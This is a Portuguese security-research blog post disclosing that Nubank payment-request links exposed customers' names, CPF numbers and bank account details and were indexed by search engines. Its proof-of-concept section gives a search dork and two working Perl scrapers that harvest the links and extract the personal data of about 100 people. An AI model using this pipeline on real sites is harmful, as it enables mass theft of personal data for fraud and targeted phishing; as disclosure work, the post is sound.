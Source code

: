 ```yaml
---
layout: content
title: 'Um pequeno caso de scraping de dados pessoais expostos na web'
description: 'Durante a realização de uma pesquisa de segurança em aplicações mobile, foi identificado um recurso no aplicativo do Nubank que permite a criação e o envio de "links de cobrança" para múltiplos destinatários. Foi identificada uma vulnerabilidade nessa funcionalidade que  possibilitou mapear dados pessoais, como CPF, nome completo, número e agência da conta vários clientes.'
og_image: https://heitorgouvea.me/images/publications/nubank-scraping/google-dorks.png
---
```


Tabela de conteúdo:
- [Resumo](#sumario)
- [Descrição](#descrição)
- [Prova de conceito](#prova-de-conceito)
- [Impacto](#impacto)
- [Conclusão](#conclusão)
- [Referências](#referencias)

### Sumário

Durante a realização de uma pesquisa de segurança em aplicações mobile, foi identificado um recurso no aplicativo do Nubank que permite a criação e o envio de "links de cobrança" para múltiplos destinatários. Foi identificada uma vulnerabilidade nessa funcionalidade que  possibilitou mapear dados pessoais, como CPF, nome completo, número e agência da conta de vários clientes.

**DISCLAIMER**: A empresa responsável foi informada sobre todos os detalhes dessa pesquisa no menor tempo possível e respondeu de maneira ética e transparente, demonstrando atenção e comprometimento com a segurança da funcionalidade. Durante os testes realizados, não houve invasão ou violação de sistemas. Além disso, a empresa implementou algumas medidas corretivas para reduzir os riscos associados ao problema relatado. Recomendações adicionais foram fornecidas para mitigar a vulnerabilidade, porém a empresa optou por não implementá-las integralmente.

- Esta publicação também está dispoível em: [Espanhol](/2020/06/23/caso-de-scraping-de-dados-personales) e [Inglês](/2020/06/23/Scraping-personal-data-exposure-in-the-web);

---

### Descrição

Dentro do aplicativo do Nubank, existe um recurso denominado "Cobrar". Seu funcionamento consiste em:
1. preencher um valor (opcional);
2. clicar em "Confirmar";
3. um QR Code é gerado, e o usuário pode compartilhá-lo ou enviar a cobrança por meio de outros aplicativos, como o WhatsApp:

![](/images/publications/nubank-scraping/creating-a-link.png)

![](/images/publications/nubank-scraping/whatsapp-shared-link.png)


O conteúdo do QR Code é o mesmo link que pode ser compartilhado por aplicativos de mensagens. Quando esse link é aberto no navegador, o seguinte resultado é obtido:

![](/images/publications/nubank-scraping/personal-infos.png)

São expostos, sem qualquer tipo de controle, alguns dados do usuário que gerou o link, como: nome completo, CPF, número da conta bancária e agência. O único requisito para obter essas informações sensíveis[1] é possuir a URL.

A URL é gerada exclusivamente pelo cliente em seu aplicativo, sendo também de responsabilidade do cliente decidir como e com quem compartilhá-la.

Entretanto, essas URLs são indexadas por motores de busca, o que permite a utilização de dorks[2] para identificar mais URLs relacionadas a esse serviço. 

Dork para restringir a busca ao site principal do Nubank, onde as URLs contenham o padrão "/pagar/" e excluam resultados envolvendo o blog:

```text
site:nubank.com.br inurl:/pagar/ -blog
````

Resultado:

![](/images/publications/nubank-scraping/google-dorks.png)

Além disso, foi possível observar que alguns usuários estavam publicando essas URLs em canais públicos, como o Twitter. Um uso comum da funcionalidade seria para o recebimento de doações.

![](/images/publications/nubank-scraping/twitter-links.png)

---

### Prova de conceito

Para demonstrar o impacto do abuso dessa funcionalidade, foi criada uma prova de conceito. A primeira parte consiste na construção de um código capaz de utilizar um motor de busca para coletar o maior número possível de URLs. Foi desenvolvido, então, um scraper[3] utilizando o Bing:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw(url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        $dork = url_escape($dork);

        my %seen  = ();
        my $mech = WWW::Mechanize -> new();

        $mech -> ssl_opts (verify_hostname => 0);

        for my $page (0 .. 10) {
            my $url = "https://wwww.bing.com/search?q=${dork}&first=${page}0";

            $mech -> get($url);

            my @links = $mech -> links();

            foreach my $link (@links) {
                $url = $link -> url();

                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

exit main();
```

Com esse código, foram coletadas 100 URLs válidas — o número foi limitado a 100 pois o intuito era apenas uma demonstração, por se tratar apenas de uma demonstração, mas poderia ser muito maior:

![](/images/publications/nubank-scraping/file-with-the-urls.png)

Após a coleta das URLs em um arquivo `.txt`, foi desenvolvido outro scraper para extrair os dados das páginas do Nubank:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

binmode(STDOUT, ":encoding(UTF-8)");

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        my $userAgent = Mojo::UserAgent -> new (
            agent => "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)"
        );
        
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp ($_);
            
            my $request = $userAgent -> get($_) -> result();

            if ($request -> is_success()) {
                my $account = $request -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close ($urls_filehandle);
    }
}

exit main();
```

E então, o resultado obtido:

![](/images/publications/nubank-scraping/collect-with-names-cpfs.png)

CPF, nome completo, número da conta e agência de 100 pessoas, em apenas alguns minutos e com poucas linhas de código.

---

### Impacto

A possibilidade de um atacante abusar dessa funcionalidade disponível nos sistemas do Nubank é alta devido à facildade de exploração. Isso pode expor diversos usuários, vazando informações sensíveis, como demonstrado anteriormente. Além disso, um atacante com posse desses dados pode utilizá-los para aplicar golpes por meio de abordagens de engenharia social extremamente direcionadas.

---

### Conclusão

Esta análise, demosntra que um agente malicioso poderia implementar scrapers para mapear URLs de cobrança do Nubank e, posteriormente, coletar as informações pessoais presentes nessas páginas. O artigo apresentou uma PoC utilizando um motor de busca, mas há espaço para outras possibilidades, como a exploração de dados publicados em redes sociais (Twitter, Facebook, etc.). Esse cenário representa um risco real, podendo tornar clientes do Nubank em alvos de ataques de spear phishing e engenharia social.

---

### Referências

- [1] [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
- [2] [https://en.wikipedia.org/wiki/Google_hacking](https://en.wikipedia.org/wiki/Google_hacking)
- [3] [https://en.wikipedia.org/wiki/Web_scraping](https://en.wikipedia.org/wiki/Web_scraping)
